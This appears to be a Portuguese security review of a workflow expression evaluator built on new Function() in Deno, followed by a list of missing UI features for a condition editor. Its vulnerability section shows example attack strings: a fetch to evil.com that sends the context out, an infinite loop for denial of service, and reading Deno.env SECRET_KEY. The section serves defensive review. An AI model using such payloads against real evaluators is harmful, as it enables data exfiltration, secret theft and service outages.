 
## 🚨 VULNERABILIDADES IDENTIFICADAS

### **1. Code Injection**
```typescript
// Expressão maliciosa pode executar código arbitrário
const malicious = "fetch('http://evil.com?data=' + JSON.stringify(context))";

// ❌ Atual: Passa na validação!
// Regex permite "fetch" (palavra comum)
```

### **2. Denial of Service (DoS)**
```typescript
// Loop infinito trava execução
const dos = "while(true) {}";

// ❌ Sem timeout = servidor trava
```

### **3. Access to Global Scope**
```typescript
// Pode acessar globals do Deno
const leak = "Deno.env.get('SECRET_KEY')";

// ⚠️ `new Function()` tem acesso limitado ao escopo, mas não totalmente isolado
```

---

## 🎯 GAPS E NECESSIDADES

### **❌ FALTA: UI para Expressões Condicionais**

**Atual**: 
- `ConditionConfig.tsx` é para **aprovação humana**
- Não há como configurar expressões automáticas visualmente

**Necessário**:
1. **Editor de Expressões**
   - Syntax highlighting
   - Autocomplete de variáveis
   - Validação em tempo real

2. **Visual Builder**
   ```
   [Campo: context.age] [Operador: >=] [Valor: 18]
   [  AND  ]
   [Campo: context.verified] [Operador: ===] [Valor: true]
   ```

3. **Preview/Test**
   - Testar expressão com dados de exemplo
   - Ver resultado antes de salvar
